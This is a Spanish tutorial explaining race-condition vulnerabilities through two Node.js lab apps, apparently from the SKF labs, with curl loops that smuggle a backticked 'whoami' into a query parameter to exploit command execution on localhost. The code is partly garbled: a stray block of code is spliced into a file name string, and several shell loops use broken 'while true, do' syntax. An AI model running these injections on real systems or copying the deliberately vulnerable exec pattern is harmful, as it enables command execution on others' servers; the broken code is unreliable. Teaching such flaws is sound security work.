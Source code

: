 # ¿ Que son las **Race Condition** ? 

Las **condiciones de carrera (Race Condition)** son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos. 

Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema. 

----

# Explotación 

Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio ( **DoS** ), sobrescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código maliciosos en el sistema. 

Por ejemplo, supongamos que dos procesos intentan acceder a un archivo al mismo tiempo: uno para leer y el otro para escribir. Si no hay un mecanismo adecuado para sincronizar el acceso al archivo, puede ocurrir que el proceso de lectura lea datos incorrectos del archivo, o que el proceso de escritura sobrescriba datos importantes que necesitan ser preservados. 

Este ejemplo, se puede dar con el siguiente código: 

```javascript
// more code ....
app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

// .... more code

```

En este ejemplo tenemos dos funcionalidades muy importantes, la primera es la que se realiza cuando **validate** = 'action'. 

```javascript
let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
}
```

Por lo que se ejecuta la función **boot_validate** con la query **person** recibida que es nuestro input el cual se va a alojar en el archivo **hello.sh** el cual se ejecutara posteriormente luego de validar que solo contenga caracteres alfanuméricos. 

Por otro lado, la funcionalidad importante que tenemos es la que se ejecuta en caso de que nuestra query **validate** no sea ni 'action' ni 'reset', dando el siguiente código: 

```javascript
 boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
```

En esta también vemos que se ejecuta la función **boot_validate**, si bien esto de primeras este sanitizado, podríamos aprovecharnos de una condición de carrera ya que no esta adecuadamente programado, si bien si ingresamos un comando este se limpia y no se muestra (luego de ejecutarlo), intuimos que por un momento se ejecuta, por lo que si abusando de bucles estamos constantemente leyendo el resultado de la web en donde se lee el contenido hello.txt (Donde se alojaría el output de nuestro comando) a la vez que estamos constantemente ejecutando la petición de la ejecución de un determinado comando, en un punto la aplicación podría tener un fallo ya que ambos procesos, como ocurre en la condición de carrera, están compitiendo por los mismos recursos. 

```bash
# Por un lado estamos constantemente enviando la petición de que se ejecute el comando "whoami"
while true; do curl -s -X GET 'http://localhost:5000/?person=`whoami`&action=validate'; done

# Por otro lado, estamos constantemente leyendo el apartado de la web en donde se vuelca el output de estos comandos (Si se diera la condición de carrera y funciona podriamos llegar a ver el output del comando deseado en algunos momentos)
while true, do curl -s -X GET 'http://localhost:5000/?action=run' | html2text | xargs | grep 'Check this out:' ; done 
```

La prueba y análisis de este código se puede encontrar en este [repo](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition). 

----

En otro ejemplo, tenemos el siguiente código: 

```javascript
// more code ...
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
// ... more code
```

Esto es una web local por el puerto 5000 la cual cuando ingresamos un parámetro x (:value), crea un archivo llamado **shared-file.txt** con el contenido ingresado como parámetro, por lo que si ponemos 'http://localhost:5000/dobliuw', nos intentara descargar un archivo **shared-file.txt** con el contenido *dobliuw*. 

Que pasa con esto? En principio, así como en el caso anterior, de puede acontecer un **Racea Condition** ya que, imaginemos que múltiples usuarios intentan crear su archivo en simultaneo, no solo podría acontecerse un *DoS*, si no que, en algún momento, podría llegar a ver la petición de otros usuarios, descargando así archivos con un contenido distinto al ingresado.

Esto se puede probar haciendo uso de [[Burpsuite]], en donde si preparamos una petición a la url 'http://localhost:5000/burpsuite' y por otro lado desde consola ejecutamos la siguiente línea: 

```bash 
while true, do curl -s -X GET 'http://localhost:5000/dobliuw' | grep -v "dobliuw" ; done
```

Estaríamos tramitando múltiples llamadas de intento de creación del archivo **shared-file.txt** con el contenido **dobliuw**, por lo que si ahora tramitamos la petición de burpsuite, en donde indicamos que (Según el código) queremos crear el archivo **shared-file.txt** con el contenido **burpsuite**, muy posiblemente en algún momento veamos el contenido **dobliuw** en la petición tramitada por [[Burpsuite]] y en la consola veamos el contenido **burpsuite**.  